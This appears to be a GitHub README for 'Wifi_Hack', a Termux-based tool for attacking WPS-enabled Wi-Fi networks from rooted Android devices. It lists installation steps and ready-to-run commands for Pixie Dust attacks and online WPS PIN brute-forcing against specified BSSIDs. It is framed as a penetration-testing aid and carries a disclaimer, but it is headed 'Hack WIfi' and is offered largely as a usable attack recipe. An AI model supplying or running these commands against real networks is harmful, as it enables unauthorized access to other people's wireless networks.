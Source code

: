 # Wifi_Hack
- WPS Attack Tool  A Python-based security tool for testing WPS-enabled Wi-Fi networks. Supports Pixie Dust attacks, brute-force PIN attempts, and network enumeration. Designed for penetration testers and researchers.
- ### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.


### Hack WIfi Using Termux With Rooted Devices!

<p align="center"><img src="https://i.ibb.co.com/whCnGHbr/Picsart-25-04-01-12-35-57-709-1.jpg"></p>

### Installation:  

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/ruhul-amin-xxl/Wifi_Hack
$ cd Wifi_Hack
$ chmod +x Wifi_Hack.py
$ sudo python Wifi_Hack.py --help
```
Example:
### Note:First,  turn off your Wi-Fi.

Show available networks and start a Pixie Dust attack on a specified network: 

```bash
sudo python Wifi_Hack.py -i wlan0 -K
```


Start a Pixie Dust attack on a specific BSSID:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
Launch an online WPS brute-force attack with the specified first half of the PIN:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
```

### Troubleshooting
"Device or resource busy (-16)"
- Solution: Turn Wi-Fi ON, then turn it OFF before running the script again.

### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.
